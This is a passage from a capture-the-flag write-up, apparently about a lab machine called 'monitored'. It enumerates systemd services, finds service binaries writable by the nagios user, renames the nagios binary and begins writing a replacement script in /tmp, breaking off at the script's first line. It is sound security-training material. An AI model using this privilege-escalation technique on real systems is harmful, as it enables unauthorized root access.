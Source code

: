 
#### Permissions

Script like [LinPEAS](https://github.com/carlospolop/privilege-escalation-
awesome-scripts-suite/tree/master/linPEAS) will check these services for
dangerous permissions, but it’s more fun to do it on my own. I’ll start a
`bash` loop to check for all these services:

    
    
    nagios@monitored:~$ for service in "postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm"; do find /etc/systemd/ -name "$service.service"; done
    /etc/systemd/system/multi-user.target.wants/postgresql.service
    /etc/systemd/system/multi-user.target.wants/nagios.service
    /etc/systemd/system/multi-user.target.wants/npcd.service
    /etc/systemd/system/npcd.service
    /etc/systemd/system/multi-user.target.wants/snmptt.service
    /etc/systemd/system/multi-user.target.wants/snmptrapd.service
    

There are six installed. I’ll loop those into a command that reads the service
file, `grep` for any line with `Exec`, and then get the binary called there.
Then I’ll run `ls -l` on that binary:

    
    
    nagios@monitored:~$ for service in "postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm"; do find /etc/systemd/ -name "$service.service"; done | while read service_file; do ls -l $(cat "$service_file" | grep Exec | cut -d= -f 2 | cut -d' ' -f 1); done | sort -u
    ls: cannot access '#': No such file or directory
    -rwxrwxr-- 1 nagios nagios 717648 Nov  9 10:40 /usr/local/nagios/bin/nagios
    -rwxr-xr-- 1 nagios nagios 31584 Nov  9 10:42 /usr/local/nagios/bin/npcd
    -rwxr-xr-x 1 root root 182238 Jul 23  2020 /usr/sbin/snmptt
    -rwxr-xr-x 1 root root  30952 Apr  6  2021 /bin/kill
    -rwxr-xr-x 1 root root 30952 Apr  6  2021 /bin/kill
    -rwxr-xr-x 1 root   root    30952 Apr  6  2021 /usr/bin/kill
    -rwxr-xr-x 1 root root 34840 Aug 15  2022 /usr/sbin/snmptrapd
    -rwxr-xr-x 1 root root 39680 Sep 24  2020 /bin/true
    -rwxr-xr-x 1 root root  43808 Sep 24  2020 /bin/sleep
    -rwxr-xr-x 1 root   root    72704 Sep 24  2020 /usr/bin/rm
    

The top two are interesting! They are both owned by the nagios user!

#### Execute

I’ll save a copy of the `nagios` binary:

    
    
    nagios@monitored:/usr/local/nagios/bin$ mv nagios nagios.bk
    

I’ll write a simple `bash` script to `/tmp/x.sh`:

    
    
    #!/bin/bash
    